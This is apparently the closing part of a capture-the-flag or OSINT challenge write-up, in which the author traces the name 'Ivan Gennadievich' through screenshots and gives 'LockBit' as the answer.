

We have a name "Ivan Gennadievich"

Looks like he was involved in some really bad stuff. Further research on his name lead me to the answer



`LockBit`

The End.



